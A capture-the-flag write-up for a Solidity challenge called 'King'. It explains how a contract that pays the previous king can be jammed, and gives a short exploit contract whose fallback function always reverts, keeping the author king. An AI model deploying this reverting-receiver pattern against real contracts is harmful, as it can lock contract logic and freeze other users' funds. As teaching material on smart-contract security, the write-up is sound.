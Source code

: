 # King

This challenge is about how bad contracts can abuse withdrawals.

Whoever is able to send more than _1 ether_ to the ```King``` contract becomes the **King** but there's a catch.

The amount of ether that has to be larger than the current prize to become the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. The goal is to break it.

When a submission is made to the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## What's the catch

Specifically, every smart contract can have a simple Fallback function in order to receive Ethers from other contracts and wallets.

Each time a contract sends Ethers to another contract, the contract - sender - are depending on the other contract’s code to handle the transaction and determine the transaction’s success, which means valid transactions could _Fail_.

As the transaction sender, you are always susceptible to the following cases:

- Loophole 1: The receiving contract doesn’t have a payable fallback function, cannot receive Ethers, and will throw an error upon a payable request.

- Loophole 2: The receiving contract has a malicious payable fallback function that throws an exception and fails valid transactions.

- Loophole 3: The receiving contract has a malicious payable function that consumes a large amount of gas, which fails your transaction or over-consumes your gas limit.

## Way out

I implemented a malicious fallback fucntion in a new contract as below:

```solidity
contract MadKing {
  function kingOfKings(address addr) public payable {
    (bool result, bytes memory data) = addr.call{value:msg.value}("");
    if(!result) revert("The kingOfKings function reverted");
  }

  fallback() external payable {  // fallback function that will revert everytime.
      revert("look at me I'm the captain now");
  }
}

```

After deploying the contact, the malicious fallback ```kingOfKings(address myLevelInstance)``` is called with _1 ether_ sent.

This helps make me the **King**, which of course...I am 😎!!!

On to the next.
